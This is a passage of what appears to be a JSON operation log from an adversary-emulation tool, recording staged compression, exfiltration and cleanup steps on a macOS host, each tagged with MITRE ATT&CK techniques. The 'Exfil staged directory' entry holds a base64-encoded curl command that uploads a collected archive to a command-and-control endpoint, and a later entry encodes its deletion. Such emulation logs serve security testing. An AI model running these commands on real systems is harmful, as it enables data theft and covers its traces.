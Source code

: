 ```json
          "executor": "sh",
          "link_id": "795b4b12-1355-49ea-96e8-f6d3d045334d",
          "name": "Compress staged directory",
          "output": {
            "stdout": "/Users/foo/staged.tar.gz",
            "stderr": "",
            "exit_code": "0"
          },
          "pid": 57383,
          "platform": "darwin",
          "run": "2022-05-11T22:13:02Z",
          "status": 0
        },
        {
          "ability_id": "ea713bc4-63f0-491c-9a6f-0b01d560b87e",
          "agent_reported_time": "2022-05-11T22:14:02Z",
          "attack": {
            "tactic": "exfiltration",
            "technique_id": "T1041",
            "technique_name": "Exfiltration Over C2 Channel"
          },
          "command": "Y3VybCAtRiAiZGF0YT1AL1VzZXJzL2NqZWxsZW4vc3RhZ2VkLnRhci5neiIgLS1oZWFkZXIgIlgtUmVxdWVzdC1JRDogYGhvc3RuYW1lYC12cmdpcngiIGh0dHA6Ly8wLjAuMC4wOjg4ODgvZmlsZS91cGxvYWQ=",
          "delegated": "2022-05-11T22:13:07Z",
          "description": "Exfil the staged directory",
          "executor": "sh",
          "link_id": "bda3e573-d751-420b-8740-d4a36cee1f9d",
          "name": "Exfil staged directory",
          "output": {
            "stdout": "  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed\r  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0\r100  1357    0     0  100  1357      0   441k --:--:-- --:--:-- --:--:--  441k",
            "stderr": "",
            "exit_code": "0"
          },
          "pid": 57568,
          "platform": "darwin",
          "run": "2022-05-11T22:14:02Z",
          "status": 0
        },
        {
          "ability_id": "300157e5-f4ad-4569-b533-9d1fa0e74d74",
          "agent_reported_time": "2022-05-11T22:15:01Z",
          "attack": {
            "tactic": "exfiltration",
            "technique_id": "T1560.001",
            "technique_name": "Archive Collected Data: Archive via Utility"
          },
          "command": "cm0gL1VzZXJzL2NqZWxsZW4vc3RhZ2VkLnRhci5neg==",
          "delegated": "2022-05-11T22:14:07Z",
          "description": "Compress a directory on the file system",
          "executor": "sh",
          "link_id": "e58dc3e6-b3a2-4657-aba0-f2f719a35041",
          "name": "Compress staged directory",
          "pid": 57769,
          "platform": "darwin",
          "run": "2022-05-11T22:15:01Z",
          "status": 0
        },
        {
          "ability_id": "6469befa-748a-4b9c-a96d-f191fde47d89",
          "agent_reported_time": "2022-05-11T22:15:03Z",
```